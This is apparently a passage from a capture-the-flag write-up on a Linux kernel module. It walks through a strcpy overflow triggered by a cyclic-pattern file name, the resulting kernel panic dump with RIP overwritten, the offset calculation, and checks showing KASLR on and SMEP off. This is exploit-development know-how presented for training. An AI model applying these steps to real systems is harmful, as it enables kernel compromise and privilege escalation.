 
This code reveals a potential `buffer overflow` when using `strcpy`:

```c
__src_00 = (uint *)strcpy(local_70, (char *)__src);
```
The string `ecsc_flag_` is compared to a part of the retrieved data, but without proper bounds, which can cause an overflow.

Using the `pwn cyclic` tool, we can trigger a [kernel panic](https://elixir.bootlin.com/linux/v4.14.167/source/kernel/panic.c#L35):

```bash
~ $ touch ecsc_flag_aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaa
paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaab
kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
~ $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 56 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff94e2c2212200 task.stack: ffffb64b000a4000
RIP: 0010:0x6163626161626261
RSP: 0018:ffffb64b000a7f38 EFLAGS: 00000282
RAX: 0000000000000118 RBX: 6174616161736161 RCX: 0000000000000000
RDX: 00007fff7f4286f6 RSI: ffffb64b000a7f93 RDI: 00007fff7f428623
RBP: 617a616161796161 R08: ffffb64b000a7ed0 R09: ffffffffc01cd024
R10: ffffb64b000a7ec0 R11: 6161766261617562 R12: 6176616161756161
R13: 6178616161776161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff91836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000000dfa138 CR3: 000000000229c000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6163626161626261 RSP: ffffb64b000a7f38
---[ end trace 5b607621c77a64d4 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0xfe00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
Rebooting in 1 seconds..
```
This kernel panic indicates that the RIP pointer points to the address: `0x6163626161626261`.

Using `pwn cyclic -l 0x6163626161626261`, we determine that the offset is 102 before reaching RIP.

But what next? First, let's examine the protections on the system:

```bash
/ $ cat /proc/cmdline
console=ttyS0 loglevel=3 oops=panic panic=1 kaslr nopti
```
Although [KASLR](https://www.ibm.com/docs/en/linux-on-systems?topic=shutdown-kaslr) is enabled, it's not a major obstacle. Next, let's check if SMEP is enabled:

```bash
/ $ cat /proc/cpuinfo
flags : fpu de pse tsc msr ...
```
Ok, [SMEP](https://breaking-bits.gitbook.io/breaking-bits/exploit-development/linux-kernel-exploit-development/supervisor-mode-execution-protection-smep) is not enabled, making our task easier!
